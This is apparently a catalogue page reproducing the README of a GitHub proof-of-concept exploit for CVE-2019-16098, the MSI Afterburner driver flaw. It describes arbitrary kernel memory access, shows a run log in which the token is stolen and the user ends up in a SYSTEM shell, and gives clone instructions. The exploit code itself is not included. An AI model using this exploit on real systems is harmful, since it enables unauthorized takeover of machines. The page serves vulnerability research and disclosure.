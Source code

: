 # CVE-2019-16098

Local privilege escalation PoC exploit for CVE-2019-16098

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Barakat](https://github.com/Barakat) |
| Url      | [https://github.com/Barakat/CVE-2019-16098](https://github.com/Barakat/CVE-2019-16098)                                               |
| Stars    | 168                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2019-16098

The driver in Micro-Star MSI Afterburner 4.6.2.15658 (aka RTCore64.sys
and RTCore32.sys) allows any authenticated user to read and write to
arbitrary memory, I/O ports, and MSRs. This can be exploited for
privilege escalation, code execution under high privileges, and
information disclosure. These signed drivers can also be used to
bypass the Microsoft driver-signing policy to deploy malicious code.

For more updates, visit [CVE-2019-16098](https://nvd.nist.gov/vuln/detail/CVE-2019-16098)

**WARNING**: Hardcoded Windows 10 x64 Version 1903 offsets!

```
Microsoft Windows [Version 10.0.18362.295]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\Barakat\source\repos\CVE-2019-16098>whoami
Barakat

C:\Users\Barakat\source\repos\CVE-2019-16098>out\build\x64-Debug\CVE-2019-16098.exe
[*] Device object handle has been obtained
[*] Ntoskrnl base address: FFFFF80734200000
[*] PsInitialSystemProcess address: FFFFC288A607F300
[*] System process token: FFFF9703A9E061B0
[*] Current process address: FFFFC288B7959400
[*] Current process token: FFFF9703B9D785F0
[*] Stealing System process token ...
[*] Spawning new shell ...
Microsoft Windows [Version 10.0.18362.295]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\Barakat\source\repos\CVE-2019-16098>whoami
SYSTEM

C:\Users\Barakat\source\repos\CVE-2019-16098>
```




## Get the content

```
git clone https://github.com/Barakat/CVE-2019-16098
cd CVE-2019-16098
```

{% embed url="https://github.com/Barakat/CVE-2019-16098" %}

<figure><img src="https://avatars.githubusercontent.com/u/11032985?v=4" alt=""><figcaption><p>Barakat</p></figcaption></figure>
